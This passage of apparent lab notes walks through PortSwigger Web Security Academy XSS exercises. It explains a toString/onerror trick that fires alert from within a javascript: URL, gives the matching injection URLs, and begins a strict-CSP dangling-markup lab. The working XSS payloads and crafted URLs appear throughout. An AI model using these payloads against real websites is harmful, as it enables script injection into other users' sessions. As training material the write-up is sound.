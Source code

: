 window represents a windows in which the script is running. It's like the father of all.

If you try to do an addition of an object and a string, javascript need to convert window to string automatically because are different types and do **window.toString()**. In this case **window.x that throw the alert**.

```html
<script>x=x=>{throw/**/onerror=alert,4},toString=x,window + ''</script>
```


```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=3'},x=x=>{throw/**/onerror=alert,1337},toString=x,window + '',{x:''}).finally(_ => window.location = '/')">BacktoBlog</a>
```

```
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window %2b% '',{x:'
```

```
https://0a96008603e684e7848681f600b200da.web-security-academy.net/post?postId=1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'
```

# Reflected XSS protected by very strict CSP, with dangling markup attack

In the input field we can't try to inject nothing because request a email format, but we can use the url and check if is injectable:

```
https://0aef00830312e3e5807f7b7b002a00ef.web-security-academy.net/my-account?email=prueba">
```

In the page we see `">` characters, we see that is reflected, let's go to try an alert:
```
https://0aef00830312e3e5807f7b7b002a00ef.web-security-academy.net/my-account?email=prueba"><script>alert(0)</script>
```

The alert wasn't triggered, when I inspect the source code that all it's ok, why doesn't work?

If we go to the console and search errors, we see this:

```
Content-Security-Policy: The page’s settings blocked an inline style (style-src-elem) from being applied because it violates the following directive: “style-src 'self'”. Consider using a hash ('sha256-GsQC5AaXpdCaKTyWbxBzn7nitfp0Otwn7I/zu0rUKOs=', requires 'unsafe-hashes' for style attributes) or a nonce.
```

If we try to use a image, first we are going to check if work.

```
"><img src="https://google.es">
```

In the console appear:
```
Content-Security-Policy: The page’s settings blocked the loading of a resource (img-src) at [https://google.es/](https://google.es/ "https://google.es/") because it violates the following directive: “img-src 'self'”
```
